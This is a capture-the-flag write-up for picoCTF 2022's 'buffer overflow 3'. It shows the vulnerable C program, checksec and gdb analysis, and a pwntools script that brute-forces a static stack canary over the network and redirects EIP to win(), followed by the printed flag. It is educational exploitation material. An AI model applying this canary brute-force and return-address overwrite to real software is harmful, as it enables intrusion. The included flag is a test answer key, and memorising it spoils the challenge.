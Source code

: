 # buffer overflow 3 - picoCTF 2022 - CMU Cybersecurity Competition
Binary Exploitation, 300 Points

## Description

![‏‏info.JPG](images/info.JPG)
 
## buffer overflow 3 Solution

Let's observe the attached file [vuln.c](./vuln.c):
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64
#define CANARY_SIZE 4

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}

char global_canary[CANARY_SIZE];
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'canary.txt' in this directory with your",
                    "own debugging canary.\n");
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}

void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately
      exit(-1);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  read_canary();
  vuln();
  return 0;
}
```

Let's run ```checksec``` on the attached file [vuln](./vuln):
```console
┌─[evyatar@parrot]─[/pictoctf2022/binary_exploitation/bof_3]
└──╼ $ checksec vuln
[*] '/pictoctf2022/binary_exploitation/bof_3/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

We can see no [PIE](https://ir0nstone.gitbook.io/notes/types/stack/pie) enable.

As we can see from the source code, there is another buffer called ```global_canary``` which acts as a stack canary.

Meaning that if we overwrite the buffer we need also to know the original value of the ```global_canary```, On the memory it looks like the following:
```c
|     buf     |   global_canary    |   ...   |    EIP   | ....
```

We have to do smart brute force to know what is the ```global_canary``` value because we don't have any leak on the code ([Read about stack canary](https://www.sans.org/blog/stack-canaries-gingerly-sidestepping-the-cage/)).

For x86 elfs, the pattern of the canary is a ```0x4``` byte dword, where the first three bytes are random and the last byte is null.

To do the smart brute force we need to understand first how it's looks on the memory:
```c
... |     buf[64]      |   canary[4]   | .... |    EBP    |   EIP   |   ... 
```

If we write 33 bytes to ```buf``` and we do not get the output of ```printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately``` meaning that we guess the first byte of the canary.

Let's find the offset between ```buf``` to ```EIP``` using ```gdb```:
```console
gef➤  r
Starting program: /pictoctf2022/binary_exploitation/bof_3/vuln 
How Many Bytes will You Write Into the Buffer?
> 10
Input> AAAAAAAAAA
Ok... Now Where's the Flag?

...
gef➤  search-pattern AAAAAA
[+] Searching 'AAAAAAA' in memory
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rw-
  0xffffd028 - 0xffffd02f  →   "AAAAAAA[...]" 
gef➤  i f
Stack level 0, frame at 0xffffd080:
 eip = 0x804956b in vuln; saved eip = 0x80495e6
 called by frame at 0xffffd0b0
 Arglist at 0xffffcfcc, args: 
 Locals at 0xffffcfcc, Previous frame's sp is 0xffffd080
 Saved registers:
  ebx at 0xffffd074, ebp at 0xffffd078, eip at 0xffffd07c

```

```buf``` address is ```0xffffd028``` and ```EIP``` address is ```0xffffd07c``` the offset is ```84``` bytes, the memory looks like:
```c
... |     buf[64]      |   canary[4]   |   16bytes chunk    |   EIP   |   ... 
```


Let's solve it using [pwntools](https://docs.pwntools.com/en/stable/intro.html):
```python
from pwn import *

BUFFER_SIZE = 64

def canary_brute_force():
    canary = ''
    for i in range(1, 5):
        for c in range(256):
            p = remote('saturn.picoctf.net',56230)
            p.sendlineafter('>', str(BUFFER_SIZE+i)) # we want to send BUFFER_SIZE bytes + current guess of canary
            payload = 'A'*64 + canary + chr(c)
            p.sendlineafter('>', payload)

            #Check if we smash the stack
            if 'Stack' not in str(p.recvall()):
                canary += chr(c) 
                log.info(f'Current value: {canary}')
                break
    return canary

canary = ''

with log.progress("Step 1: Canary brute force"):
	canary = canary_brute_force()
	log.info(f'Canary found: {canary}') 

# payload buffer
payload = b'A'*BUFFER_SIZE
payload += bytes(canary, encoding='utf8')
payload += b'B'*16
payload += p32(0x8049336) # Address of win function (from gdb: p win)

p = remote('saturn.picoctf.net',56230)
p.sendlineafter('>', str(len(payload))) 
p.sendlineafter('>', payload) 
p.interactive()
```

Run it:
```console
┌─[evyatar@parrot]─[/pictoctf2022/binary_exploitation/bof_3]
└──╼ $ python3 exp.py
[*] '/pictoctf2022/binary_exploitation/bof_3/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] '/usr/lib32/libc-2.31.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[\] Step 1: Canary brute force
[+] Opening connection to saturn.picoctf.net on port 56230: Done
[+] Receiving all data: Done (61B)
 ....
[*] Canary found: BiRd
[+] Opening connection to saturn.picoctf.net on port 56230: Done
[*] Switching to interactive mode
 Ok... Now Where's the Flag?
picoCTF{Stat1C_c4n4r13s_4R3_b4D_f7c1f50a}
[*] Got EOF while reading in interactive
```
 
And we get the flag ```picoCTF{Stat1C_c4n4r13s_4R3_b4D_f7c1f50a}```.